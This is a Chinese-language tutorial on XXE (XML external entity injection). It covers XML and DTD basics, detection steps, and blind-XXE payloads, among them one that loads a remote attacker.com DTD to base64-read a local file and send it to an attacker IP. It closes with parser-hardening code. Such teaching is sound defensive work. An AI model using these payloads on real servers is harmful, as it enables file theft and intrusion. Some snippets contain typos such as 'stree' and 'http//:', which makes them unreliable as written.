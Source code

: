 # XXE漏洞

## 1、XML基础知识

​		e<font color="red">X</font>tensible <font color="red">M</font>arkup <font color="red">L</font>anguage 可扩展标记语言

​		主要用途：配置文件、交换数据

```xml
<?xml version="1.0"?>   // XML声明
<TranInfo>		// XML根元素
    <CdtrInf>     //XML子元素
        <Nm>张三</Nm>
        <Id>6226097558881666</Id>
    </CdtrInf>
    <DbtrInf>
        <Id>6222083803003983</Id>
        <Nm>李四</Nm>
    </DbtrInf>
    <Amt>1000</Amt>
</TranInfo>
```

### 1.1 XML格式要求

- XML文档必须有根元素
- XML文档必须有关闭标签
- XML标签对大小写敏感
- XML元素必须被正确的嵌套
- XML属性必须加引号

### 1.2 XML格式校验

​	DTD（Document Type Definition）文档类型定义，可以单独一个文件，也可以写在XML文件内部

#### 1.2.1 元素ELEMENT

```dtd
<!DOCTYPE TranInfol[
<!ELEMENT TranInfo(CdtrInf,DbtrInf,Amt)>
<:!ELEMENT CdtrInf(Id,Nm)>
<!ELEMENT DbtrInf(Id,Nm)>
]>
```

#### 1.2.2 实体ENTITY

​	内部实体

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name[
<!ELEMENT name ANY >
<!ENTITY cs "changsha" >
]>
<area>&cs;</area>
```

​	外部实体

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name[
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///C:/test/test.dtd" >
]>
<area>&xxe;</area>
```
#### 1.2.3 外部实体引用协议：

| 协议 | 使用方式                                                   |
| ---- | ---------------------------------------------------------- |
| file | file:///etc//passwd                                        |
| php  | php://filter/read=convert.base64-encode/resource=index.php |
| html | http//:wuya.com/evil.dtd                                   |

不同语言支持的协议

| Libxml2         | PHP                                                          | Java                                                  | .NET                   |
| --------------- | ------------------------------------------------------------ | ----------------------------------------------------- | ---------------------- |
| file、http、ftp | file、http、ftp、php、compress.zli、b、compress.bz、ip2、data、glob、phar | file、http、https、jar、ftp、netdoc、mailto、gopher * | file、http、https、ftp |

### 1.3 完整的XML

```xml-dtd
<!-- 第-部分：XML声明部分 -->
<?xml version="1.0"?>

<!-- 第二部分：文档类型定义 DTD -->
<!DOCTYPE note[
<!-- 外部实体声明 -->
<!ENTITY entity-name SYSTEM "URI/URL">
]>

<!-- 第三部分：文档元素 -->
<note>
    <to>Dave</to>
    <from>GiGi</from>
    <head>Reminder</head>
<body>fish together</body>
</note>
```

## 2、XML外部实体注入漏洞

​		<font color="red">X</font>ML E<font color="red">x</font>ternal <font color="red">E</font>ntity Injection

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### 2.1 XXE定义

​		如果Web应用的脚本代码没有限制XML引入外部实体，从而导致用户可以插入一个外部实体，并且其中的内容会被服务端执行，插入的代码可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。

### 2.2 检测XXE漏洞

- 第一步：判断是否以XML格式进行数据交换
- 第二步：判断是否实体是否会被解析
- 第三步：使用自己制作的接口或DNSlog判断服务器是否可以发起http请求
### 2.3 盲打
#### 2.3.1 DNS盲打
```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://aaabbb.fiaz.844.dnslog.cn" >
%remote;]>
```

#### 2.3.2 http接口参数，写入文件

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
%remote;]>
<root>&send;</root>
```
evil.dtd
```dtd
<!ENTITY % file SYSTEM
    "php://filter/read=convert.base64-encode/resource=file:///c:/system.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM'http://192.168.142.135:8080?p=%file'>">
```

## 3、XXE漏洞防御

（1）禁止解析外部实体

```php
libxml_disable_entity_loader(true);  // 关键代码
$xml - simplexml_load_string($xmlContent);
```

```Java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);  // 关键代码
```

```nginx
XmlDocument doc = new XmlDocument();
doc.XmlResolver = null;    // 关键代码
```

```asp
Set xmldom = Server.CreateObject('MSXML.DOMDocument')
xmldom.resolveExternals = false  // 关键代码
```

```python
from lxml import stree
xmlData = stree.parse(xmlSource, stree.XMLParser(resolve_entities=False))
```


（2）过滤用户提交的XML数据``

（3）使用WAF
